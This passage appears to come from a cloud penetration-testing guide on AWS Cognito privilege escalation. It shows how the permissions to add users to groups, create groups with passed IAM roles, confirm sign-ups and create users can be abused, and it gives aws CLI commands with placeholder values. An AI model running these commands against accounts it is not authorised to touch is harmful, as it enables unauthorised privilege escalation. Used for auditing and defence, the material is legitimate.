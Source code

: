**Potential Impact**: Compromise the configured authenticated IAM role inside the identity pool.

### `cognito-idp:AdminAddUserToGroup`

This permission allows to **add a Cognito user to a Cognito group**, therefore an attacker could abuse this permission to add an user under his control to other groups with **better** privileges or **different IAM roles**:

```bash
aws cognito-idp admin-add-user-to-group \
    --user-pool-id <value> \
    --username <value> \
    --group-name <value>
```

**Potential Impact:** Privesc to other Cognito groups and IAM roles attached to User Pool Groups.

### (`cognito-idp:CreateGroup` | `cognito-idp:UpdateGroup`), `iam:PassRole`

An attacker with these permissions could **create/update groups** with **every IAM role that can be used by a compromised Cognito Identity Provider** and make a compromised user part of the group, accessing all those roles:

{% code overflow="wrap" %}
```bash
aws cognito-idp create-group --group-name Hacked --user-pool-id <user-pool-id> --role-arn <role-arn>
```
{% endcode %}

**Potential Impact:** Privesc to other Cognito IAM roles.

### `cognito-idp:AdminConfirmSignUp`

This permission allows to **verify a signup**. By default anyone can sign in Cognito applications, if that is left, a user could create an account with any data and verify it with this permission.

```bash
aws cognito-idp admin-confirm-sign-up \
    --user-pool-id <value> \
    --username <value>
```

**Potential Impact:** Indirect privesc to the identity pool IAM role for authenticated users if you can register a new user. Indirect privesc to other app functionalities being able to confirm any account.

### `cognito-idp:AdminCreateUser`

This permission would allow an attacker to create a new user inside the user pool. The new user is created as enabled, but will need to change its password.

```bash
aws cognito-idp admin-create-user \
    --user-pool-id <value> \
    --username <value> \
    [--user-attributes <value>] ([Name=email,Value=email@gmail.com])
    [--validation-data <value>]
    [--temporary-password <value>]
```
